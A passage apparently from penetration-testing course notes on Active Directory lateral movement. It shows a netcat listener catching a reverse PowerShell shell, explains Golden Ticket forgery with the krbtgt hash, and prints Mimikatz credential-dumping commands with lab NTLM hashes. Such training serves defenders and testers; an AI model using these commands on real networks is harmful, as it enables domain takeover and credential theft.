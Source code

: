 Switching to our Kali machine, we can verify any incoming connections on the listener that we simultaneously set up.

```bash
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 50778

PS C:\Windows\system32> whoami
corp\jen

PS C:\Windows\system32> hostname
FILES04
```

#### Golden Ticket (With krbtgt hash we can create our TGTs)

Returning to the explanation of Kerberos authentication, we'll recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This secret key is actually the password hash of a domain user account called _krbtgt_.[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/lateral-movement-in-active-directory/active-directory-persistence/golden-ticket#fn1)

If we are able to get our hands on the _krbtgt_ password hash, we could create our own self-made custom TGTs, also known as _golden tickets_.

Although this technique's name resembles the Silver Ticket one that we encountered in the Attacking Authentication Module, Golden Tickets provide a more powerful attack vector. While Silver Tickets aim to forge a TGS ticket to access a _specific_ service, Golden Tickets give us permission to access the _entire_ domain's resources, as we'll see shortly.

```shell
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldnt access DC1:
Access is denied.

C:\Tools\SysinternalsSuite>.\Mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami